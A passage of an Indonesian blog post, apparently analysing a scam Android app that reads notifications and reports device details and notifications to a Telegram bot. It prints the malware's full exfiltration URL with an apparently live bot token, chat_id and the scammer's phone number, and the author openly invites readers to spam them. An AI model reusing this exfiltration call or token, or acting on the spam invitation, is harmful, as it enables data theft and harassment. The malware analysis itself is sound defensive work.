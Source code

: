 Jika _user_ mengizinkan, maka aplikasi akan mengirimkan sebuah pesan melalui bot api telegram berisi informasi tipe perangkat dengan pesan :

```
    https://api.telegram.org/bot6786269059:AAE5kJhf3LIHOVNWjjinjStyEzwzFQWysVk/sendMessage?parse_mode=markdown&chat_id=6648398269&text=𝐍𝐨𝐭𝐢𝐟𝐢𝐤𝐚𝐬𝐢 𝐀𝐩𝐥𝐢𝐤𝐚𝐬𝐢 𝐃𝐢 𝐈𝐧𝐬𝐭𝐚𝐥𝐥 \n 𝐓𝐲𝐩𝐞 𝐏𝐞𝐫𝐚𝐧𝐠𝐤𝐚𝐭: _
```

Perhatikan kode dibawah ini dibaris 109 - 112. Kemudian aplikasi akan mengirimkan _request_ API menggunakan `OKHttpClient` dibaris 114.

<img src="{{ '/assets/img/posts/2023-12-06-app-scam/app-scam-13.webp' | prepend: site.baseurl }}" class="img-fluid center m-1">

{% include alerts.html type="info" content="Variabel <i>this.client</i> pada baris 114 berisi <i>OKHttpClient</i>, yaitu library untuk mengirim request API." %}

Berikutnya, aplikasi melakukan _checking_ pertama dengan mengirim pesan SMS "_Gacor123_" ke nomor _085382537448_ dibaris 127. Dan jika pesan gagal terkirim, maka aplikasi juga akan mengirimkan pesan _error_ ke bot api telegram seperti diatas.

<img src="{{ '/assets/img/posts/2023-12-06-app-scam/app-scam-14.webp' | prepend: site.baseurl }}" class="img-fluid center m-1">

{% include alerts.html type="info" content="Disini saya tidak akan melakukan sensor data sensitif penipu. Jadi silahkan saja spam nomor hpnya atau spam menggunakan bot api telegram dengan token yang sudah saya 'telanjangi' 😂." %}

_Checking_ yang kedua yaitu aplikasi mengecek apakah _user_ sudah mengizinkan aplikasi untuk membaca notifikasi perangkat. Jika _user_ belum mengizinkan, maka aplikasi akan mengalihkan ke halaman pengaturan izin notifikasi untuk memaksa _user_ mengaktifkan izin tersebut. Perhatikan dibaris 149 - 151.

<img src="{{ '/assets/img/posts/2023-12-06-app-scam/app-scam-15.webp' | prepend: site.baseurl }}" class="img-fluid center m-1">

Jika user mengizinkan, maka aplikasi akan me\-_register receiver_ menggunakan [Local Broadcast Manager](https://developer.android.com/reference/androidx/localbroadcastmanager/content/LocalBroadcastManager) dengan Intent filter "**Msg**" dan [Broadcaster Receiver](https://developer.android.com/guide/components/broadcasts?hl=id) `onNotice` di baris 153. Di bawah ini merupakan variable Broadcaster Receiver `onNotice`.

<img src="{{ '/assets/img/posts/2023-12-06-app-scam/app-scam-18.webp' | prepend: site.baseurl }}" class="img-fluid center m-1">

`onNotice` akan menerima pesan (_Intent_) yang dikirimkan dari `NotificationService.java` (penjelasan ada dibawah) yang kemudian akan mengirim pesan kembali ke bot api telegram.

{% include alerts.html type="info" content="<b>Local Broadcast Manager</b> adalah bagian dari <i>library</i> android yang menyediakan mekanisme untuk mengirim dan menerima pesan atau <i>broadcast</i> antar komponen hanya di dalam aplikasi." %}

{% include alerts.html type="info" content="<b>Broadcast Receiver</b> adalah salah satu komponen dasar dalam aplikasi Android yang berfungsi untuk menangkap dan merespon pesan atau <i>broadcast</i> yang dikirimkan oleh aplikasi maupun sistem." %}

### NotificationService.java

File ini berisi _service_ yang di\-_extend_ dari [Notification Listener Service](https://developer.android.com/reference/android/service/notification/NotificationListenerService) yang berfungsi untuk memberi tahu aplikasi bahwa ada notifikasi yang muncul di perangkat. Fungsi `onNotificationPosted` akan dipanggil ketika ada notifikasi baru yang muncul di perangkat dan memberikan akses ke objek `StatusBarNotification`, yang berisi informasi tentang notifikasi tersebut.

